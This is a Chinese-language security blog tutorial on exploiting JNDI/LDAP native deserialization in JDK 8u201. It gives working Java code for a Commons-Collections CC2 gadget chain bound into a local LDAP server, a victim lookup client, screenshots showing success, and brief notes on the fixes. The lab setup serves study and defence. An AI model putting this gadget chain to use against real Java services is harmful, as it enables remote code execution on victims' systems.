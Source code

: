 参考博客：

[JNDI注入与动态类加载](https://halfblue.github.io/2021/11/18/JNDI%E6%B3%A8%E5%85%A5%E4%B8%8E%E5%8A%A8%E6%80%81%E7%B1%BB%E5%8A%A0%E8%BD%BD/)

# 分析版本

jdk8u201

# 流程分析

在前面[JNDI-ldap绕过](https://yezzz.blog.csdn.net/article/details/140796385)分析中提到，存在ldap原生反序列化利用点。

再回顾一下，在deserializeObject

```java
private static Object deserializeObject(byte[] var0, ClassLoader var1) throws NamingException { //var1=AppClassLoader，修复之后在本地加载
    try {
        ByteArrayInputStream var2 = new ByteArrayInputStream(var0);

        try {
            Object var20 = var1 == null ? new ObjectInputStream(var2) : new Obj.LoaderInputStream(var2, var1); 
            Throwable var21 = null;

            Object var5;
            try {
                var5 = ((ObjectInputStream)var20).readObject();  //原生反序列化
            } catch (Throwable var16) {
//....
```

原生反序列化可以直接打，不需要Reference。

# 攻击实现

我们模拟一下受害方是存在CC利用链的，所以现在项目中添加依赖

```xml
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
</dependencies>
```

打下CC2

重写一个Ldap的绑定

```java
public class JNDILDAPServerBypass {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        //Reference refObj = new Reference("Test", "Test", "http://localhost:4444/");
        initialContext.rebind("ldap://localhost:10389/cn=Evil,dc=example,dc=com", getEvilPriorityQueue());

    }

    public static PriorityQueue getEvilPriorityQueue() throws Exception {
        //CC2
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());


        InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", null, null);

        //chainedTransformer.transform(1);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1)); //改为ConstantTransformer,把利用链断掉
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(1);

        ///Class transformingComparatorClass = TransformingComparator.class;  //也可以
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, invokerTransformer);

        return priorityQueue;
    }

}
```

看下Ldap服务器

![image-20240730181129112](https://s2.loli.net/2024/07/31/3Qq5PohtwBUIrDN.png)

之后模拟受害方客户端请求

```java
public class JNDILDAPClient {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("ldap://localhost:10389/cn=Evil,dc=example,dc=com");
        //LdapCtx

    }
}
```

攻击成功

![image-20240730181311044](https://s2.loli.net/2024/07/31/tXLmZP6NCbwKA85.png)

**分析上面代码时，也分析到了`decodeReference(var0, var2);`调用了，deserializeObject方法也会产生反序列化漏洞**

# 修复

1. 关于deserializeObject的修复，提供了个类之前trustURLCodebase属性开关，但是默认开启，不影响
2. 关于decodeReference，也引入了一个属性